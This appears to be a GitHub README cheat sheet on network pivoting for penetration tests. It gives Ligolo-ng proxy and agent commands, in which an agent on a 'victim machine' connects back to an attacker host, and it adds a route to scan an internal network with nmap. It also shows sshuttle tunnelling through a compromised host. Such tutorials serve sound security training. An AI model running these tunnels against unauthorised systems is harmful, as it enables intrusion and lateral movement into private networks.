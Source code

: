 # Pivoting

# Ligolo-ng
### Download link for ligolo-ng<br/>
Link: https://github.com/nicocha30/ligolo-ng<br/>

### Creating Interface
```
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

### PROXY - server needs to be run on attacker machine 
#### start the server
```sudo ./proxy -laddr 0.0.0.0:<port> -selfcert```

### Agent - agent needs to be run on victim machine
#### connect the agent to server
##### windows agent
```.\agent.exe -connect <LHOST>:lport -ignore-cert```
##### linux agent
```./agent -connect <LHOST>:lport -ignore-cert```

### List the sessions
```ligolo-ng » session ``` #list session<br/>
```[Agent : client@client-virtual-machine] » ifconfig``` #check different network interfaces that victim connected
```You will receive result something like below
   ┌───────────────────────────────────────────────┐
   │ Interface 4                                   │
   ├──────────────┬────────────────────────────────┤
   │ Name         │ ens37                          │
   │ Hardware MAC │ 00:0c:29:45:60:ff              │
   │ MTU          │ 1500                           │
   │ Flags        │ up|broadcast|multicast|running │
   │ IPv4 Address │ 10.10.10.148/24                │
   │ IPv6 Address │ fe80::f04d:685d:278c:9642/64   │
   └──────────────┴────────────────────────────────┘
```

### Now to pivot to above example network run
```sudo ip route add ip/24 dev ligolo``` #ip here with above example 10.10.10.148/24

### Finally start the tunnel
```[Agent : client@client-virtual-machine] » tunnel_start```

### Now you can access all the machines inside the above example network 10.10.10.148/24
```sudo nmap 10.10.10.0/24```
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/a703906f-b7db-4a33-b3fd-0bfed798101e)


# Sshuttle<br/>
### Install sshuttle on kali or attacker machine<br/>
``` sudo apt install sshuttle```
### Start the tunnel<br/>
```sudo sshuttle -r targetuser@targermachineip targetpivotnetwork```  #example: sudo sshuttle -r client@192.168.1.20 10.10.10.0/24<br/>
### Now use curl or wget or browser to access pivoted network services<br/>
curl http://pivotnetworkmachineip:port/   #example: curl http://10.10.10.132:80/<br/>
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/2d0da11f-063c-444b-a71c-17c8eec34ca9)
